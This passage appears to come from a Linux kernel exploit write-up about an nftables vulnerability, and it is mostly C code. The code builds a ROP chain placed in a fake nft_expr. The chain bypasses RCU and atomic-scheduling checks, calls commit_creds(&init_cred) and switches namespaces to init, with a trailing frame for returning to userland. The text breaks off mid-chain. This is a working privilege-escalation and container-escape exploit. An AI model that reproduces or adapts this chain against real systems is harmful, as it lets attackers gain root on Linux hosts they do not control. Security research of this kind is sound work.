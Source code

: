 ```c
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```

For mitigation kernel, the ROP payload is stored in `chain->blob_gen_0` which is allocated by page allocator.

When `eval()` is called, `RBX` points to `chain->blob_gen_0+0x10`, which is the beginning of the `nft_expr` structure.

```c
void rop_chain(uint64_t* data){
    int i = 0;

    // nft_rule_blob.size > 0
    data[i++] = 0x100;
    // nft_rule_blob.dlen > 0
    data[i++] = 0x100;

    // fake ops addr
    data[i++] = PAYLOAD_LOCATION(1) + offsetof(struct cpu_entry_area_payload, nft_expr_eval);

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = getpid();
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = RCU_READ_LOCK_NESTING_OFF;
    data[i++] = kbase + ADD_RAX_RSI_RET;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + POP_RCX_RET;
    data[i++] = 0;
    data[i++] = kbase + MOV_RAX_RCX_RET;

    // Bypass "schedule while atomic": set oops_in_progress = 1
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + OOPS_IN_PROGRESS;
    data[i++] = kbase + MOV_RSI_RDI_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    data[i++] = kbase + POP_RSI_RET;
    data[i++] = 0;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
```